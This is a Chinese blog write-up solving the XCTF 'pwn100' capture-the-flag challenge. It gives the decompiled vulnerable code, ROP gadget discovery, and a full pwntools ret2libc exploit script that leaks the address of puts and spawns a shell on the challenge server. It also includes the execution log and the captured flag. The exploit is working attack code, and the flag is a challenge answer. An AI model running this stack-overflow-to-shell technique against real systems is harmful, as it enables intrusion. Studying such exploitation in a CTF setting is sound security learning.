

<!--yml
category: 未分类
date: 2022-04-26 14:37:40
-->

# pwn100 [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列16_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103674766](https://blog.csdn.net/fastergohome/article/details/103674766)

题目地址：[pwn100](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4888&page=1)

本题已经是高手进阶区的第五题了，难度也在不断加大。需要补充的知识点也越来越多了。

废话不说，看看题目

没什么建议和描述，那就先下载附件，看看保护机制

```
root@mypwn:/ctf/work/python/pwn-100# checksec d0b5f9b486bb480c9035839ec896252e 
[*] '/ctf/work/python/pwn-100/d0b5f9b486bb480c9035839ec896252e'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

只开了NX，那就可以做栈溢出。

打开ida看了一些，这个程序比较简单，直接上c语言代码，我简单的调整了一下变量命名：

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  go_game();
  return 0LL;
}

int go_game()
{
  char szInputString; // [rsp+0h] [rbp-40h]

  read_string((__int64)&szInputString, 200);
  return puts("bye~");
}

__int64 __fastcall read_string(__int64 pszBuffer, signed int nSize)
{
  __int64 result; // rax
  signed int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = (unsigned int)i;
    if ( i >= nSize )
      break;
    read(0, (void *)(i + pszBuffer), 1uLL);
  }
  return result;
}
```

注意到溢出点在go_game，很明显的read函数溢出。

检查了一下system和/bin/sh在程序里面都没有。所以我本次准备采用LibcSearcher，这个模块可以帮助我们从读取到的libc运行库函数地址，确定libc的基地址，从而通过偏移来确定system和/bin/sh。

我们先构建一下payload，一共需要两个payload：

1、获取puts函数地址

```
payload = 'A' * (0x40+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
payload = payload.ljust(200, 'B')
```

2、运行system('/bin/sh')

```
payload = 'A' * (0x40+8) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
payload = payload.ljust(200, 'B')
```

继续说一下pop_rdi_ret的获取方法

```
root@mypwn:/ctf/work/python/pwn-100# ROPgadget --binary d0b5f9b486bb480c9035839ec896252e --only "pop|ret" | grep rdi
0x0000000000400763 : pop rdi ; ret
```

main_addr就是main函数的地址，其他的变量定义可以直接看python脚本，具体如下：

```
#coding:utf8

from pwn import *
from LibcSearcher import * 
# context.log_level = 'debug'
process_name = './d0b5f9b486bb480c9035839ec896252e'
# p = process(process_name)
p = remote('111.198.29.45', 39499)
elf = ELF(process_name)

main_addr = 0x4006B8
pop_rdi_ret = 0x400763
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
def get_puts(p):
	payload = 'A' * (0x40+8) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
	payload = payload.ljust(200, 'B')

	p.send(payload)
	p.recvuntil('bye~\n')
	puts_addr = u64(p.recv(6).ljust(8, '\x00'))
	log.info("puts_addr => %#x", puts_addr)
	p.recv(1)

	return puts_addr

puts_addr = get_puts(p)

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'A' * (0x40+8) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
payload = payload.ljust(200, 'B')
p.sendline(payload)

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/pwn-100# python pwn-100.py 
[+] Opening connection to 111.198.29.45 on port 39499: Done
[*] '/ctf/work/python/pwn-100/d0b5f9b486bb480c9035839ec896252e'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] puts_addr => 0x7efcfcba5690
Multi Results:
 0: archive-old-glibc (id libc6-amd64_2.24-3ubuntu1_i386)
 1: archive-old-glibc (id libc6-amd64_2.24-3ubuntu2.2_i386)
 2: archive-old-glibc (id libc6-amd64_2.24-9ubuntu2.2_i386)
 3: ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
 4: archive-old-glibc (id libc6-amd64_2.24-9ubuntu2_i386)
Please supply more info using 
    add_condition(leaked_func, leaked_address).
You can choose it by hand
Or type 'exit' to quit:3
[+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
[*] Switching to interactive mode
bye~
$ cat flag
cyberpeace{fa9353aa34f02d8d6044608735bd457e}
$ 
```

执行成功，拿到了flag。

本题的知识点主要是在没有system和/bin/sh的情况下如何通过栈溢出来获得libc的基地址，从而完成system及/bin/sh的推算。